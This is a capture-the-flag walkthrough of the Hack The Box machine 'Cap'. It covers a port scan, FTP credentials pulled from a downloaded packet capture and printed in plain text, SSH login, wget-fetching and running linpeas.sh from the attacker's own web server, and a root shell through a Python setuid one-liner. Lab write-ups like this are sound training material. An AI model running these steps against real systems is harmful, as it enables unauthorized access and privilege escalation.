 # HTB - Cap

**IP Address:** `10.10.10.245`  
**OS:** Ubuntu 20.04  
**Difficulty:** Easy  
**Tags:** #FTP, #PCAP, #Wireshark, #SSH, #LinPEAS, #SUID, #Python

---

## 1. Port Scanning

### 1.1 Nmap Scan

```bash
nmap -sV -sC 10.10.10.245
```

**Result:**

- `21/tcp` → FTP (vsftpd 3.0.3)
- `22/tcp` → SSH (OpenSSH 8.2p1)
- `80/tcp` → HTTP (Gunicorn)

---

## 2. Web Enumeration

Navigating to `http://10.10.10.245` opens a "Security Dashboard" already logged in as `Nathan`.  
Clicking **Security Snapshot** changes the URL to `/capture/data/0`.

```text
/capture/data/0 → contains downloadable PCAP data
```

⬇️ Downloaded the `.pcap` file and opened it with **Wireshark**.

Filtered traffic by protocol **FTP** and discovered:

```text
Username: nathan
Password: Buck3tH4TF0RM3!
```

---

## 3. SSH Access

Used the recovered credentials:

```bash
ssh nathan@10.10.10.245
```

✅ SSH login successful  
🏁 **User flag retrieved from Nathan's home directory**

---

## 4. Privilege Escalation

### 4.1 Hosting linPEAS Locally

Started a local web server:

```bash
python3 -m http.server 8080
```

On victim machine, downloaded **linpeas.sh**:

```bash
wget http://10.10.14.105:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

---

### 4.2 Root via Python SUID Abuse

`linpeas.sh` showed a possible misconfigured **SUID bit on Python3**.

On the victim:

```python
import os
os.setuid(0)
os.system("/bin/bash")
```

✅ Spawned a root shell  
🏁 **Root flag retrieved from `/root`**

---

# ✅ MACHINE COMPLETE
